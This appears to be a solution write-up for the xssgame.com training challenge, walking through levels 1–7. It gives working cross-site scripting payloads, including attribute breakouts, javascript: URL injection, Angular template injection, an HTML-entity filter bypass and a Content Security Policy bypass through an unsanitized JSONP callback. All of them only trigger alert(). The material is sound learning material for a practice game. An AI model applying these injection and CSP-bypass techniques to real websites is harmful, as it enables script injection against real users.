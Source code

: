 # [xssgame.com](http://xssgame.com/)

## Level 1

The input is embedded as-is into the page that'll load next.

```
<script>alert()</script>
```

## Level 2

The input becomes an argument as follows `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call which ends up with "ending" of the original function call.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead and supply input for a working `src` attribute, or try to close of the `img` tag.

## Level 4

There's an intermediate navigation with sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```

## Level 6

Simply posting the form doesn't inject anything useful into the response HTML.
Issuing a GET request like `/?query={{alert}}` results in the modification of the form's `action` parameter, it'll end up like this: `<form action="/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}"`.
The leading `{{` is dropped. Replacing it with an HTML entity works, however `&#123;` doesn't, only `&lcub;`.

```
http://www.xssgame.com/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}
```

## Level 7

Sending a GET request to `http://www.xssgame.com/f/wmOM2q5NJnZS/?menu=...` by supplying the `menu` parameter a Base64 payload indirectly injects the following into the page.

```
<script src="jsonp?menu=' + encodeURIComponent(menu) + '">
```

Using `btoa('<script>alert();</script>')` as the payload doesn't quite work though, we get the following error.

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src http://www.xssgame.com/f/wmOM2q5NJnZS/ http://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-/NOakGMgxH1rSep6q9+wRmM98LxyJLGvY2s9h3kZOjY='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

The error is due to the CSP set by the server-side. After the "trick" payload the DOM contains the following.

```
<h1>Error, no such menu: <script>alert();</script></h1>
```

Since the response body of the [JSONP](https://en.wikipedia.org/wiki/JSONP) call is `callback({"title":"Error, no such menu: <script>alert();</script>"})`.
This will execute the `callback(...)` function, which contains this `if (data.title) document.write('<h1>' + data.title + '</h1>');`, essentially injecting whatever in the `data.title` into the page itself.

JSONP is [exploitable if callback names supplied to such an endpoint are unsanitized](https://en.wikipedia.org/wiki/JSONP#Callback_name_manipulation_and_reflected_file_download_attack), meaning we can do this.

```
btoa('<script src="jsonp?callback=alert"></script>')
```

This ends up in the DOM as follows.

```
<h1>Error, no such menu: <script src="jsonp?callback=alert"></script></h1>
```

Which doesn't trigger the CSP, but triggers a GET request with the following response body.

```
alert({"title":"Welcome to my Website!","pictures":["const.png"]})
```

